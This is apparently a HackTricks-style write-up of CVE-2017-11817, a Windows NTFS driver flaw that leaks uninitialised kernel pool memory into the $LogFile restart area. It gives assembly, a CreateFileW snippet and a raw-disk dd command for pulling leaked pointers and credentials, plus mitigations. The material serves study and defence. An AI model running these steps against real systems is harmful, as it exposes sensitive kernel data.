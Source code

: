 # Windows NTFS Kernel Pool Memory Leak

{{#include ../../banners/hacktricks-training.md}}

## Overview

CVE-2017-11817 presents an information disclosure vulnerability in the Windows NTFS driver that has existed since Windows 2000. When mounting an NTFS volume on Windows 7 or earlier, the driver fails to zero-initialize a non-paged pool buffer in `LfsRestartLogFile`, writing uninitialized kernel pool memory to the `$LogFile` journal restart area with no additional privileges.

## Root Cause

In `Ntfs!LfsRestartLogFile`, the driver calls:

```c
ExAllocatePoolWithTag(NonPagedPool, 0x210, 'rsfL');
```

and immediately writes the allocated buffer to disk without zeroing it. Windows 8 and Server 2012+ insert a `memset` after allocation to clear the memory, eliminating the leak.

### Key Assembly (Windows 7 `NTFS.sys`)

```assembly
push 'rsfL'          ; tag for ExAllocatePoolWithTag
push 0x210           ; pool size
call ExAllocatePoolWithTag
mov [edi+0x198], eax ; store buffer pointer
; missing zeroing step here
; Windows 8+ adds:
call _memset          ; clear buffer to prevent leak
```

## Exploitation Steps

1. Mount an NTFS-formatted volume (e.g., plug in a USB drive or attach a VHD).
2. Access the hidden `$LogFile` via raw disk access:
   - **Win32 API**:
     ```c
     HANDLE h = CreateFileW(
         L"\\.\\C:/$LogFile",
         GENERIC_READ,
         FILE_SHARE_READ | FILE_SHARE_WRITE,
         NULL,
         OPEN_EXISTING,
         0,
         NULL
     );
     ReadFile(h, buffer, 8192, &bytesRead, NULL);
     ```
   - **Using `dd`**:
     ```bash
dd if=\\.\\PhysicalDrive1 bs=8192 skip=768 count=1 of=leak.bin
```
3. Parse the 8192-byte region for two `"RSTR"` restart record signatures and extract the subsequent 3800-byte data sections containing leaked kernel pool data (pointers, credentials, etc.).
4. Analyze leaked data offline to discover sensitive information.

## Tools & PoC

- **Packet Storm PoC**: Automates discovery and dumping of restart records.
  https://packetstormsecurity.com/files/144644/

## Impact & Mitigation

- Attackers gain read-only access to uninitialized kernel memory, exposing sensitive information such as kernel pointers and credentials.
- **Mitigation**:
  - Update to Windows 8 / Server 2012 or later.
  - Apply Microsoft patches for CVE-2017-11817 on older systems.
  - Restrict mounting of untrusted NTFS volumes.

{{#include ../../banners/hacktricks-training.md}}

## References

- [Buried in the log: Exploiting a 20-Year-Old NTFS Vulnerability](https://swarm.ptsecurity.com/buried-in-the-log-exploiting-a-20-years-old-ntfs-vulnerability/)
- [Packet Storm PoC (ID 144644)](https://packetstormsecurity.com/files/144644/)
- [Microsoft CVE-2017-11817 Advisory](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2017-11817)
{{#include /banners/hacktricks-training.md}}

